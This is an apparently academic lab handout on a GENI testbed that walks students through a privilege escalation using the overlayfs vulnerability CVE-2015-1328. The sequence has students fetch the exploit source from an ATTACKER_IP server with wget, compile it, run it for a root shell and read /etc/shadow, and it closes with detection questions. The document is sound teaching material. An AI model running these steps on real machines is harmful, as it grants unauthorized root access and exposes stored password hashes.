

- Privilege Escalation Lab -
Lab Goals
- Obtain an Experimental Perspective of a Privilege Escalation Attack
- Become Acquainted wtih User Privileges
- Apply Log Collection and Computer Network Forensics to Detect a Privilege Escalation Attack
A Brief Introduction to Privilege Escalation
This lab is intended to provide a brief introduction into the area of attacks known as "Privilege Escalation (PE)" or "User to Root (U2R)" attacks.
A Privilege Escalation attack involves a user gaining access to actions or privileges that would be otherwise unavailable to a regular user.
These privileges such as editing the system's password file, installing programs, and editing already installed app configurations, are available to a superuser or root.
Some PE attacks exploit a pre-existing privilege granted to the user in order to permanently elevate their access.
For example, the DirtyCOW (CVE-2016-5195) attack exploits a system's copy-on-write mechanism in order to write to a file that is normally accessed as read-only.
This lab walks through an implementation of the overlayfs vulnerability (CVE-2015-1328) which exploits the fact that the overlayfs filesystem does not check file permissions when creating files in its upper directories.
This allows a user to create a binary with root-privileges, essentially giving them full access to a system.
In the steps below, an attacker will gain access to an unprivileged user on a victim machine, download malicious code, compile it, and run the attack, giving the attacker root access to the system.
Prerequisites
- You will need basic command line knowledge to complete this lab. Codecademy has a great tutorial on this topic.
- In this lab, you will use a vulnerability from CVE database that is available to any adversary.
- You can learn more about overlayfs filesystem in this website.
Topology and Necessary Files
- Layout of the GENI topology for this lab:

The Privilege Escalation Lab GENI Topology
- Information regarding the three nodes is given below:
- Attacker - Machine Type: XEN VM, Hardware: Ubuntu 16.04 LTS 64-Bit
- Victim - Machine Type: XEN VM, Hardware: Ubuntu 14.04 LTS 64-Bit
- Switch - Machine Type: OF OVS
- Note that the victim uses an older OS version. Why do you think this is the case?
- The only file needed for this lab is the overlayfs.c file.
Part 1: Setting Up the Attacker
- The first thing you want to do is install all the necessary software on the Attacker machine. SSH into the Attacker machine and type
sudo apt-get update --fix-missing. This will automatically install the dependencies necessary for apache2.
- Type
sudo apt-get install apache2 -y in order to install apache2 on the machine.
- Apache2 should automatically start itself after being installed, but, to make sure, enter the command
sudo service apache2 start. You can verify it is running by entering the command sudo service apache2 status.
- In order to emulate remote access to the victim machine from the attacker machine, you will need to be able to SSH from the attacker to the victim. Using WinSCP or scp, transfer over your GENI private key file from your local host, i.e., your pc/laptop, to the attacker machine. With scp:
scp -i KEY_FILE -P PORT KEY_FILE USER@HOST:~
- When using SSH with a key file, the key file has to have specific permissions. In order to verify that the transferred file has the right permissions, enter the command
sudo chmod 0600 KEY_FILE
- In addition, transfer over the provided overlayfs.c file to the Attacker machine, using the same format for the scp command as used above. With scp:
scp -i KEY_FILE -P ATTACKER_PORT overlayfs.c USER@HOST:~
- After both files have been transferred, move the exploit file so that it can be remotely downloaded from the apache2 server:
sudo mv overlayfs.c /var/www/html/
- Finally, type
sudo ifconfig, and record the IP address displayed under eth0. You will need this for later.
Part 2: Setting Up the Victim
- Here we describe how an administrator (admin) would add a regular user to a system. First, the admin would create the user and give a test password that the user should change after their first login. Then, the admin would create a folder for the user to be able to add their files and operate in their own sandbox. An outsider could intercept/fish the password of the regular user and use this to access their account. However, they still do not have much power over the system. They cannot edit the password file or install a malicious app, until they elevate their privileges.
- All of the users in a slice on GENI automatically have sudoer privileges on any GENI topology machines. So, in order to emulate local access with a low permission user, you need to create one. SSH into the Victim machine and enter the command
sudo useradd name, where name can be substituted by any user name, such as "alice".
- In order to set a password for "alice", use the command
sudo passwd alice, and enter the new password when prompted.
- However, "alice" does not have a home directory and is currently unable to read or write files on the machine. So, you need to create a home directory for the newly created user:
sudo mkdir /home/alice.
- Since this directory was created under another user's ownership, "alice" will not be able to operate in the folder like normal. By using the following command, you give "alice" privileges in its home directory:
sudo chown name /home/alice.
- alice will be playing the role of the victim user that has hypothetically shared their password with the hacker (or reused the same password that was hacked from a vulnerable database etc.).
Part 3: Running the Attack
- Once everything has been set up, you can start running the attack. SSH into your Attacker machine, and, from the Attacker machine, SSH into the Victim machine as a regular user. In our example, you need to login as "alice", assuming that you have gotten her password either with a phishing action or by intercepting it. This simulates local user access.
- You should be automatically directed to the recently created home directory for "name". In order to verify who you are, enter the command
whoami. In order to verify that you do not have sudoer permissions, enter the command sudo cat /etc/shadow. You should receive a response like that in Figure 6.
- Now that you have verified you are a local user with no special privileges, you can start working your way up. First, you need to download the exploit file from the Attacker machine:
wget ATTACKER_IP/overlayfs.c, where the ATTACKER_IP needs to be substituted by the eth0 IP that you collected in Part 1, Step 8. This emulates the attacker transferring files to the victim machine through their own server.
- Entering the command
ls should verify that your download was successful.
- In order to be able to run the attack, you need to compile the C code:
gcc overlayfs.c -o overlayfs.
- To run the attack, enter
./overlayfs, and wait until you see a "#" prompt in the terminal window, signifying that you have root access.
- In order to verify that you are now the root user, enter the commands
whoami
sudo cat /etc/shadow
Typing "whoami" should reveal that you are now root, and being able to display the contents of the "/etc/shadow" file displays the privileges you now have.
Part 4: Understanding What Overlayfs is Doing
- Read about the overlayfs vulnerability (CVE-2015-1328), and browse the overlayfs.c code. What do you think it is doing, and how would you implement CVE-2015-1328?
- If you were the attacker, how would you confirm that this exploit works in this specific system?
- How do you think an attacker discovers vulnerabilities such as overlayfs? Describe the steps and thinking process?
Part 5: Discovery and Covering Tracks
- How would you discover that an attack like this one has taken place in your machine if you were the system administrator?
- What if you were a hacker that wanted to cover their tracks? What would you do to cover up this type of attack?
Part 6: Running Your Own Privilege Escalation Attack
There are many local privilege escalation attacks similar to the one displayed above, and many of them can be carried out in a format similar to this lab: gain access, download exploit, run exploit. Listed below are a few such similar exploits that are used to escalate a local user's privileges to those of root:
- DirtyCOW
- Mr. Robot
- Distcc_Exec Reverse Shell
- IP6T_SO_SET_REPLACE